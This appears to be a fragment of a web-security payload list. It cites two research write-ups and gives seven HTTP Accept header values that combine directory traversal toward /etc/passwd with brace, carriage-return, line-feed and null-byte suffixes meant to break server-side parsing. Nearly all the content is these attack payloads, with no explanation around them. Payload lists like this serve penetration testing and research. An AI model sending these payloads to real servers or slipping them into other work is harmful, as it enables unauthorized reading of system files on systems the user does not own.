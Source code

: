 - https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6

```jsx
Accept: ../../../../.././../../../../etc/passwd{{

Accept: ../../../../.././../../../../etc/passwd{%0D

Accept: ../../../../.././../../../../etc/passwd{%0A

Accept: ../../../../.././../../../../etc/passwd{%00

Accept: ../../../../.././../../../../etc/passwd{%0D{{

Accept: ../../../../.././../../../../etc/passwd{%0A{{

Accept: ../../../../.././../../../../etc/passwd{%00{{
```
- https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows
